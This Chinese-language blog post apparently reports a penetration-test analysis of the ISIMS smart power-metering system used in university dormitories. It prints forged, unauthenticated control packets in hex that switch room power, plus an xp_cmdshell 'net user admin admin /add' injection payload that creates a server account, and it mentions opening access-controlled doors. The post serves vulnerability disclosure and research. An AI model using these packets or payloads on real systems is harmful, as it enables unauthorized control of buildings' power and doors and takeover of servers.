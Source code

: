 ```yaml
---
layout:     post
title:      论操纵大楼灯光打游戏的可行性
subtitle:   对ISIMS智能电控的分析
date:       2018-03-02
author:     volcanohatred
header-img: img/articles/控电/title.jpg
catalog: true
tags:
    - 逆向
    - socket编程
    - 渗透测试
    - 极客
---
```

>黑入电控系统然后操纵大楼灯光打游戏是很多黑客电影所有的桥段，有人觉得现实中不可能实现。我想说这种东西实现起来很容易，要想操纵电力，无非是操纵智能电控系统然后控制电力而已（当然不排除其他方法）。很多人可能会问，现实生活中不是都是机械开关么？哪来的智能电控系统，其实不然，智能电控早已普遍存在，只是很多人不知道而已。

#1.智能电控系统

智能电控系统即对强电加入智能弱电控制模块，从而达到对电力的控制和操作。近年来，很多大型企业、学校单位为了方便对电力的管理和收费，都引进了对楼宇的智能电控系统。而且随着网络化和智能化的发展和普及，对智能电控系统的布控在国内也成增长趋势。国内做智能电控系统的厂家很多，比如新开普的电控水电表管理系统，常工电子的ISIMS智能计量管理系统等。
但是，智能电子产品的应用越普及，意味着对安全的需求也越高，作为一个安全从业者，有必要对其产品的安全进行严格把控。
#2.对ISIMS智能计量管理软件的分析

在一次渗透测试中，拿到了某大学的电力控制服务器权限，所以本文就以这台服务器上的ISIMS智能计量管理软件为研究对象，进行分析。
ISIMS智能计量管理软件是常州股份公司开发的产品，因为它的方便性和智能性，使得国内很多大学都在用它来进行学生宿舍的计费和控制。ISIMS智能计量管理软件属于注册商用软件，所以网上是没有下载的。闲的无聊去公司官网看了看，发现应用案例还挺多。
![应用案列1](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片1.png)
![应用案列2](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片2.png)

话不多说，开始分析吧！！！


注：此研究软件的版本        客户端 Sims 	   v3.23.15
		                  服务端 Simserv 	v3.24.01

##2.1工作模式

ISIMS的工作模式如下图：

![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片3.png)

client（tcp client）—>server(tcp server)—>中位机（tcp client）

##2.2传输数据分析

用WPE对客户端的数据进行抓包分析：
A用户登陆数据包：
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片4.png)

电力控制数据包：

![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片5.png)

A用户注销数据包：

![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片6.png)

开关成功返回数据：

![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片7.png)

经过对数据包进行大致分析，发现传送的数据均没有进行加密处理，而且发现客户端发送的数据并无时效性，这样伪造数据包显得轻而易举。另外，对电力的控制数据包大小固定，为543字节，如果控制命令成功执行，则返回一个29字节的数据包，否则返回一个21字节大小的数据包。但是要想伪造数据包对某个特定房间进行开关电，则需要对电力控制的那个大小为543字节的数据包进行解析才能随意构造。
A用户对某个房间开数据，发往服务器：

`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00`
`33 04 10 37 33 02 F3 00 00 00 00 00 00 69 0E 38 02 CD AB BA DC 00 00 00 00 00 00 00 00 69` `0E 38 02 AC F9 18 00 C8 F9 18 00 30 02 17 76 B8 6B 44 06 14 FA 18 00 91 6D 10 76 51 6D 10` `76 75 DE 87 6E 00 00 00 00 4A 03 03 00 B8 6B 44 06 24 00 00 00 01 00 00 00 00 00 00 00 00` `00 00 00 70 00 00 00 FF FF FF FF FF FF FF FF E9 6C 10 76 91 6D 10 76 0C FA 18 00 01 00 00` `00 00 00 00 00 7C 5E 43 06 B8 F9 18 00 60 FA 18 00 60 FA 18 00 1E A6 16 76 39 49 8F 18 FE` `FF FF FF 51 6D 10 76 E8 6D 10 76 00 00 00 00 69 0E 38 02 4A 03 03 00 99 01 00 00 03 00 00` `00 00 00 00 00 48 22 F2 00 F3 6D 10 76 11 DE 87 6E 99 01 00 00 00 00 00 00 B8 6B 44 06 04` `00 00 00 B8 C7 4B 00 7C 5E 43 06 3C FA 18 00 B8 6B 44 06 BC FA 18 00 1E A6 16 76 99 49 8F` `18 FE FF FF FF F3 6D 10 76 44 6E 10 76 20 22 F2 00 DA F8 2C 77 57 6E 10 76 94 FA 18 00 18` `00 00 00 00 00 00 00 20 22 F2 00 7C 5E 43 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00` `00 00 00 00 00 24 FB 18 00 1A 01 2C 77 C4 FA 18 00 00 00 00 00 9C FB 18 00 80 00 2C 77 20` `22 F2 00 00 00 00 00 99 01 00 00 03 00 00 00 00 00 00 00 69 0E 38 02 D2 25 2E 77 04 00 00` `00 B9 72 10 76 61 21 11 76 4A 03 03 00 99 01 00 00 03 00 00 00 00 00 00 00 00 00 00 00 B1` `02 00 00 01 00 00 00 00 00 00 00 99 01 00 00 B8 6B 44 06 00 00 00 00 AC FD 18 00 4A 03 03` `00 00 00 00 00 48 FB 18 00 7A 61 11 76 20 22 F2 00 00 00 00 00 69 0E 38 02 03 00 00 00 00` `00 00 00 01 00 00 00 03 00 00 00 BC FB 18 00 8F 85 47 00 4A 03 03 00 99 01 00 00 03 00 00` `00 F7 3C 40 00 03 00 00 00 7C 5E 43 06 B8 62 51 00 B8 6B 44 06 03 00 00 00 03 00 00 00 B8`
 `6B 44 00 `

服务器发往中位机的数据：（对服务端进行抓包）

```
7D 33 04 10 37 33 02 F3 00 AB EA 7F
```

##2.3逆向分析

ISIMS客户端由3个动态链接库文件、1个配置文件和1个可执行文件组成。分别是CtoS.dll,midas.dll,Mwic_32.dll;
SimsClient.ini;SIMS.exe。SimsClient.ini里面是一些服务器ip，端口的信息，所以目的是对3个动态链接库文件和可执行文件进行逆向分析。SIMS.exe无壳，由Delphi编写。
Send函数位于CtoS.dll中，下条件断点使之发送的数据大小为21F（543）时断下：
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片8.png)

在返回点下断找调用函数，以此往上找原数据组成：
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片9.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片10.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片11.png)
通过对数据的拆分，发现543字节大小的数据由3部分组成，前23字节的数据加16字节数据再加后面的数据。
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片12.png)

##2.4分析总结

发往服务器的543字节的数据中，前39字节为关键数据，后面的数据为无用数据，在前39个字节中后面的9位最为关键：
`00 00 00 07 00 00 00 AA 00 00 00 94 00 00 00 00 00 00 02 0B 01 2E 00 00 00 02 08 00 00 00` `33 04 10 37 33 02 F3 00 00`

33位分隔字符，04位代表楼层编号，10代表中位机号，37为端口号，02 F3 为开电功能位。即：管理器地址+中位机地址+48加端口号》》》》转化成16进制。汇编代码如下：
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片13.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片14.png)

客户端启动之后会向服务器发送数据库查询指令，服务器会返回各栋楼各个中位机和房间端口的数据，放在某段内存之中，以便发送和接收数据调用。所以，得出结论，要想操纵大楼灯光打游戏就是对控制数据包的前39个字节中的后9位进行构造，然后编写算法以达到目的。


#3.伪造数据包对寝室电力进行控制

##3.1伪造数据开关目标房间

初步的设计思路为编写tcp客户端向电控服务器发送登陆请求，然后伪造数据发包,最后注销用户,C代码如下：
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片15.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片22.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片17.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片18.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片19.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片20.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片21.png)

>上面代码中禁用nagel算法很关键，不禁用数据会先放到缓冲区，然后等到一定大小才会发送，这样发送到服务器的数据包会是一个粘在一起的包含登陆控制注销代码的数据包，服务器不会识别。

测试：发现目标房间开关电成功。
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片27.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片28.png)
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片29.png)
##3.2操纵大楼灯光打游戏的可行性

既然我们已经分析了关键数据实现了对某个房间的开关，那就可以实现对整栋楼房间的开关。但是要想用灯光打游戏，需要考虑的是延迟性和服务器的处理能力，后来我做了相关测试，发现延迟性太高和服务器处理能力不足的问题都有出现：同时发送三个房间的开数据会出现一个房间未能开电。
这里可以改变代码的执行路径，改变ISIMS的工作模式:
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片23.png)

直接写一个服务器程序向每栋楼的串口通讯服务器的web服务发包。(需要在web服务上添加本机ip，设置端口）。
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片30.png)
问题得到解决。现在要考虑的就只有游戏代码问题了。（略）

#4.漏洞挖掘

在无意之中，发现客户端在未发送登陆数据的情况下，发送控制代码依然可以控制目标房间的电力，而在未发送登陆数据的情况下发送注销代码在服务器日志上会被记录为sa用户已退出，初步推断此系统存在验证漏洞。
在之前的OD中看到有数据库执行命令，在客户端中，当用户点击查询指令时，客户端会向服务器发送这段指令：
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片24.png)

在之前的渗透测试中，发现服务器使用的是sql server数据库，既然服务器对发送的数据验证不严格，可以试着构造恶意数据库命令添加系统用户试试。多次测试分析发现，在执行数据库命令时，数据包前18位不发生改变：
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00`

第18、19位用来表示后面要执行的sql语句的字段大小，现在构造一条添加系统用户的语句：
`exec master..xp_cmdshell 'net user admin admin /add'.`

转化位16进制：
`0x65,0x78,0x65,0x63,0x20,0x6d,0x61,0x73,0x74,0x65,0x72,0x2e,0x2e,0x78,0x70,0x5f,0x63,0x6d,``0x64,0x73,0x68,0x65,0x6c,0x6c,0x20,0x27,0x6e,0x65,0x74,0x20,0x75,0x73,0x65,0x72,0x20,0x61,``0x64,0x6d,0x69,0x6e,0x20,0x61,0x64,0x6d,0x69,0x6e,0x20,0x2f,0x61,0x64,0x64,0x27,0x00`(总共53位）再加上前面的20位前缀：
`0x00,0x00,0x00,0x07,0x00,0x00,0x00,0x55,0x00,0x00,0x00,0x74,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0X35`

将构造的数据通过tcp客户端发送给服务器：
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片25.png)

服务器成功添加新用户！
#5.扩展测试

上面做了对电力系统的测试，后来我对门禁系统也同样进行了测试，也发现了同样的问题，对数据包的验证同样无时效性，下图为向某个下属刷卡门进行测试：返回1，代表开门成功，门禁系统这里不做讨论。
![工作模式](https://raw.githubusercontent.com/volcanohatred/volcanohatred.github.io/master/img/articles/控电/图片26.png)


可以看出在内网之中各种基础设施和系统的脆弱性！！！原因是企业单位往往只是满足于系统的功能性，只要能用就ok，而全然不顾系统的安全性，往往部署完系统，只要能够正常运行，就不再对系统进行升级或者安全检查，这给整个内网早成了很大的安全隐患。
